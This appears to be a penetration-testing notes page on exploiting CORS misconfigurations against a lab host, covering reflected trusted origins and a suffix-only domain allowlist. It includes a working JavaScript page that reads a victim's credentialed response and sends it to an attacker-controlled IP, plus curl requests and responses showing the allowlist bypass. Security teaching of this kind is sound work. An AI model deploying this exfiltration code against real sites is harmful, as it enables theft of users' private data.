






---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# CORS

## **Trusting Any Origin**

For exploiting a CORS misconfiguration, we must first check if the [`SameSite`](../common-findings/cookie-flags.md#samesite) cookie flag is set (Figure 1).

<figure><figcaption><p>Figure 1: Checking the <code>SessionCookie</code>'s set flags via the browser.</p></figcaption></figure>

The presence of `Access-Control` headers indicates that the application supports CORS (Figure 2).

<figure><figcaption><p>Figure 2: Inspecting a CORS request and response.</p></figcaption></figure>

If we send the same request unauthenticated (without the `Cookie` header), we get a `401 Unauthorized` response (Figure 3). Remember that a browser won't include credentials on a CORS request without the `Access-Control-Allow-Credentials` header. Furthermore, a wildcard value for the `Access-Control-Allow-Origin` header doesn't allow `Access-Control-Allow-Credentials` to be `true`.

<figure><figcaption><p>Figure 3: Sending a request without credentials.</p></figcaption></figure>

When we add the `Origin` header to the CORS request, the `Access-Control-Allow-Credentials` response header is added (Figure 4).

<figure><figcaption><p>Figure 4: Adding the <code>Origin</code> header.</p></figcaption></figure>

We can try to reach the above endpoint from an external domain (Figure 5). Notice that this is a CORS request (`mode: 'cors'`) including credentials (`credentials: 'include'`).


```html
<html>
<head>
<script>
var url = "https://cors-sandbox/code";

function get_code() {
  fetch(url, {
    method: 'GET',
    mode: 'cors',
    credentials: 'include'
  })
  .then(response => response.json())
  .then(data => {
    console.log(data);
  });
}

get_code();
</script>
</head>
<body></body>
</html>
```


<figure><figcaption><p>Figure 5: Accessing the page from another domain.</p></figcaption></figure>

Since JavaScript can access the response, we can update our page to send the `code` to an arbitrary domain. The below request creates a CORS page to get the code on behalf of the victim and then sent it to an attacker-control server (Figure 6).


```html
<html>
<head>
<script>
var url = "https://cors-sandbox/code";

function get_code() {
  fetch(url, {
    method: 'GET',
    mode: 'cors',
    credentials: 'include'
  })
  .then(response => response.json())
  .then(data => {
    fetch('http://192.168.45.214/callback?' +  encodeURIComponent(JSON.stringify(data)), {
      mode: 'no-cors'
    });
  });
}

get_code();
</script>
</head>
<body></body>
</html>
```


<figure><figcaption><p>Figure 6: Successfully exfiltrating the <code>code</code> to an arbitrary domain.</p></figcaption></figure>

## **Improper Domain Allowlist**

The `Access-Control-Allow-Origin` header can only set a single domain. When an application needs to support multiple-origin CORS, it must include server-side logic to respond with the appopriate value via inspecting the `Origin` header to a CORS request. Two common appraches are to check if the `Origin` header includes a preset value or ends with a preset value and then reflecting that header value. In the example below, the server responds with an `Access-Control-Allow-Origin` header.

```bash
# preflight request
$ curl -X "OPTIONS" -i -k https://cors-sandbox/allowlist
HTTP/2 200
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: https://offensive-security.com
content-type: text/html; charset=utf-8
date: Fri, 09 Aug 2024 07:54:20 GMT
server: waitress
content-length: 0
```

Passing a different origin (different protocol and subdomain) via the `Origin` header reflects it back to the response.


```bash
# including the Origin header
$ curl -X "OPTIONS" -i -k -H "Origin: http://www.offensive-security.com" https://cors-sandbox/allowlist
HTTP/2 200
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: http://www.offensive-security.com
content-type: text/html; charset=utf-8
date: Fri, 09 Aug 2024 07:56:43 GMT
server: waitress
content-length: 0
```


The server does not reflect the origin passed if we change its TLD[^1], but it responds with the default value. The same behavior happens when another domain is passed.


```bash
# modifiying the top level domain
$ curl -X "OPTIONS" -i -k -H "Origin: http://www.offensive-security.net" https://cors-sandbox/allowlist
HTTP/2 200
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: https://offensive-security.com
content-type: text/html; charset=utf-8
date: Fri, 09 Aug 2024 08:00:57 GMT
server: waitress
content-length: 0

# passing another domain
$ curl -X "OPTIONS" -i -k -H "Origin: http://malicious.com" https://cors-sandbox/allowlist
HTTP/2 200
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: https://offensive-security.com
content-type: text/html; charset=utf-8
date: Fri, 09 Aug 2024 08:03:35 GMT
server: waitress
content-length: 0
```


Based on this information, we can infer that the server is allowing domains that end with `offensive-security.com`, perhaps to allow various subdomains. However, it is not checking for a leading period and this allow us to prepend something to the domain name and bypass CORS.


```bash
$ curl -X "OPTIONS" -i -k -H "Origin: http://www.maliciousoffensive-security.com" https://cors-sandbox/allowlist
HTTP/2 200
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: http://www.maliciousoffensive-security.com
content-type: text/html; charset=utf-8
date: Fri, 09 Aug 2024 08:03:21 GMT
server: waitress
content-length: 0
```


[^1]: Top Level Domain
